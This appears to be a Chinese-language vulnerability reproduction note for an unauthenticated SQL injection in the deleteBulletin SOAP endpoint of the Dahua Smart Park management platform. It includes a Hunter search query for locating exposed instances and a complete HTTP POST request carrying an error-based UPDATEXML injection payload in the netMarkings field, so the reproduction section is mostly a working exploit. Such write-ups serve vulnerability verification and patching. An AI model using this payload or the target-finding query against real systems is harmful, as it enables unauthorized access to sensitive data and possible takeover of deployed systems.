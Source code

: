 # 大华智慧园区综合管理平台deleteBulletin SQL注入漏洞

# 一、漏洞简介
  “大华智慧园区综合管理平台”是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。大华智慧园区综合管理平台未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter：`app.name="Dahua 大华 智慧园区管理平台"`

![1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad.png](./img/B0-EQlrucjZkjtaZ/1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad-456762.png)

+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/B0-EQlrucjZkjtaZ/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-634247.png)

# 四、漏洞复现
```plain
POST /portal/services/itcBulletin HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: {hostname}
Content-Length: 442

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:itc="http://itcbulletinservice.webservice.dssc.dahua.com">
   <soapenv:Header/>
   <soapenv:Body>
      <itc:deleteBulletin>
         <!--type: string-->
         <netMarkings>(UPDATEXML(2326,
        CONCAT(0x2e,0x71706a7171,(select 111*111),0x71706a7171),4027)))AND (2373=2373</netMarkings>
      </itc:deleteBulletin>
   </soapenv:Body>
</soapenv:Envelope>
```

![1702741800989-1457b1a9-1b82-4fc0-8a06-ca9921345835.png](./img/B0-EQlrucjZkjtaZ/1702741800989-1457b1a9-1b82-4fc0-8a06-ca9921345835-626897.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/in7vnveyi5bug7u3>